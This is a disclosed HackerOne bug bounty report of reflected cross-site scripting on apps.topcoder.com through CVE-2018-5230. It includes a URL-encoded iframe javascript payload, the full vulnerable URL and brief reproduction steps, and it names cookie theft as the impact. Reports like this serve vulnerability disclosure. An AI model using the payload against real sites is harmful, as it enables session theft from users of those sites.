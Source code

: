# Cross Site Scripting via CVE-2018-5230 on https://apps.topcoder.com

## Report Details
- **Report ID**: 781284
- **URL**: https://hackerone.com/reports/781284
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-01-23T06:16:46.788Z
- **Disclosed**: 2020-02-24T04:18:47.852Z

## Reporter
- **Username**: n0x496n
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: lab45

## Vulnerability Information
Hi, I found reflected xss on https://apps.topcoder.com via error message..

Payload : ``` %3CIFRAME%20SRC%3D%22javascript%3Aalert%28%27XSS%27%29%22%3E.vm ```

Vulnerable link  : https://apps.topcoder.com/wiki/labels/%3CIFRAME%20SRC%3D%22javascript%3Aalert('XSS')%22%3E.vm

Step to reproduce : Create an account and visit the vulnerable url..

{F693517}

References : 

https://www.cvedetails.com/cve/CVE-2018-5230/
https://www.exploit-db.com/exploits/37791

Best regards..

## Impact

Hackers can steal victim`s cookies

## Attachments
- firstcve.png
